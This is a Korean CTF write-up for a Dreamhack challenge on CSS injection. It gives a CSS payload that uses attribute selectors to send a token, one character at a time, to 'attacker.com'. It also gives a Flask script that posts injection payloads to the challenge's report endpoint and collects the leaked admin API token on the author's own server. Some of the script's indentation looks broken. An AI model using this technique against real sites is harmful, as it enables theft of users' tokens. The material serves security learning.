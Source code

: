 ```yaml
---
title: CSS Injection
author: heogi
date: 2024-11-18
categories:
  - CTF
  - Dreamhack
  - Web
tags:
  - CSS
  - CSS-Injection
  - web
comments: true
---
```

# CSS Injection

## 1. Analysis
memo를 작성할 수 있는 서비스를 제공하는 페이지이다.
![](../assets/img/Pasted%20image%2020241118003515.png)
문제에서 제공하는 코드를 살펴보면 `/report` 를 통해 `admin` 이 사용자가 입력한 특정 URL에 접근하도록 할 수 있는 기능이있다.
또한 `/mypage` 에는 `token`  값이 존재하며 해당 값을 `API-KEY` header에 담아 보내면 `/api/memo` 를 통해 작성한 memo를 확인할 수 있다.

또한 `base.html` 의 코드 중 아래 `color` 파라미터를 통해 사용자의 값을 입력할 수 있으며, 이를 통해 CSS Injection을 트리거 할 수 있다.
```html
<style>
body{
	background-color: {{ color }};
}
</style>
```
![](../assets/img/Pasted%20image%2020241119003348.png)
## 2. Attack
공격을 위한 시나리오는 아래와 같다.
```text
1. color 파라미터를 통해 CSS Injection을 수행한다.
2. Admin의 API-Token 값을 탈취한다.
3. /api/memo를 호출하여 Flag를 확인한다.
```
먼저 color 파라미터를 통해 CSS Injection 공격을 진행, Admin의 API-Token을 탈취해야한다.
이를 위해 CSS Injection Technique 중 `Sequential Import Chaining` 사용한다.

### 2-1. Sequential Import Chaining
CSS의 `Attribute Selectors` 기능을 통해 특정 attribute를 가진 object의 value를 탈취하는 기법이다.
`Attribute Selectors` 는 특정 Attribute를 가진 Object의 CSS Style을 지정하는 기능이다.

input Object의 name이 password 이고 해당 Object의 value를 탈취하고 싶다면
아래처럼 `^=` 특성 선택자를 통하여 value 값에 접미사로 설정한 값이 포함되어있다면 Attacker의 URL로 요청을 보내도록 할 수 있다.
만약 value 가 `beast` 라면 `value^=b` 에서 요청을 보내게되며, 다시 `value^=be` 에서 요청을 보내게 된다.

```html
input[name=password][value^=a]{
    background: url('https://attacker.com/a');
}
input[name=password][value^=b]{
    background: url('https://attacker.com/b');
}
/* ... */
input[name=password][value^=9]{
    background: url('https://attacker.com/9');   
}
```

이를 코드로 구현하면 아래와 같다.

```python
import requests
from flask import Flask, request

app = Flask(__name__)

flag = ""
stop = False

def attack():
	global stop
	global flag
	
	url = "http://host3.dreamhack.games:14737/report"
	headers = {"session":"eyJ1aWQiOjIsInVzZXJuYW1lIjoidGVzdCJ9.Z0sWuQ.wJ757vrJQyofNeQ6TyhUOoRob_g"}

	print("Start Attack")
	
	for x in range(0,8):
		for i in range(ord('a'), ord('z') + 1):
			if stop == True:	
			stop = False	
			break
	
		prefix = flag + chr(i)
		print("sending..."+prefix)
		payload = "mypage?color=green; }} input[id=InputApitoken][value^=\{0\}] \{\{ background:url(http://ctf.heogi.com:5000/?c=\{0\})".format(prefix)
		data = {"path" : payload}
		requests.post(url, headers=headers, data=data)
	
	print("End Attack")

@app.route("/")
def index():
	global flag
	global stop
	
	if request.args.get('c'):
		c = request.args.get('c')
		flag = c
		print(flag)
		stop = True
	else:
		attack()
return flag

if __name__ == "__main__":
	app.run(host="0.0.0.0",debug=True,port=5000)
```
![](../assets/img/Pasted%20image%2020241130230050.png)
획득한 API-Token으로 /api/memo를 호출하면 FLAG를 획득할 수 있다.
![](../assets/img/Pasted%20image%2020241130230500.png)